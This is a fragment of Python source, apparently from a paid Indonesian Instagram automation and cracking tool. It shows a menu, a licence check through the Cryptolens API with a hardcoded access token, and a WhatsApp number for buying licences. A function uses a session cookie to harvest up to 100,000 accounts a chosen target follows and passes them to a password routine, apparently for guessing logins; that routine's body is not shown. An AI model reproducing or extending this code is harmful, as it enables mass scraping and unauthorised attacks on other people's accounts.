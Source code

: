 		elif c in ('6','06'):
			print(f'{P}[{M}!{P}] bot auto unfollow sedang dalam proses maintenance')
			time.sleep(2)
			self.menu()

		elif c in ('7','07'):
			self.HapusLisen()
			
		elif c in ('0','00'):
			self.Exit()

		else:
			self.menu()
def tlisensi():
    lu()
    cetak(nel('[!] Lisensi Tidak Valid\n[!] Silahkan Ketik [green]"Buy"[/green] Untuk membeli lisensi'))
    time.sleep(2)
    lisen=input('[•] Masukan Lisensi : ')
    if lisen in ['']:
     print(f'{M}[!] JANGAN KOSONG{N}');sleep(1)
     tlisensi()
    if lisen in ['buy','Buy']:
     os.system('xdg-open https://wa.me/+6281221523195?text=Bang+beli+lisensi+IG+nya+dong');exit()
    loadinglisen()
    open('.lisen.txt','w').write(lisen)
    lisensi()
    
def lisensi():
 try:
  cek=open('.lisen.txt').read()
  lisensikuni.append(cek)
 except:
  tlisensi()
 ses=requests.Session()
 res=ses.get('https://app.cryptolens.io/api/key/Activate?token=WyIyODk1MzkwMyIsImVUdmdBNEZpL0RyVEFReFFwVTBhMzhaelBIaHZJbHhWQkZSSUdHRVoiXQ==&ProductId=17514&Key='+lisensikuni[0]).json()
 status=res['licenseKey']['key']
 if status ==cek:
  li()
  cetak(nel('\t[green] SELAMAT LISENSI ANDA VALID[/green]'))
  time.sleep(2)
  lisensiku.append("sukses")
  ggwp17()
 elif status ==KeyError:
  os.system('rm .lisen.txt')
 else:
  tlisensi()

def mengi(self):
			try:
				menudump.append('mengikuti')
				prints(Panel(f"{P2}pastikan username target yang di pilih bersifat publik dan jangan private",width=80,style=f"#FFFFFF"))
				m=int(input(f'{P}[{B}?{P}] masukan jumlah target : {H}'))
			except:m=1
			for t in range(m):
				t +=1
				nama=input(f'{P}[{B}?{P}] masukan username : {H}')
				id=self.idAPI(self.cookie,nama)
				info=self.ifoAPI(self.cookie,'https://i.instagram.com/api/v1/friendships/%s/following/?count=100000',id)
			self.passwordAPI(info)
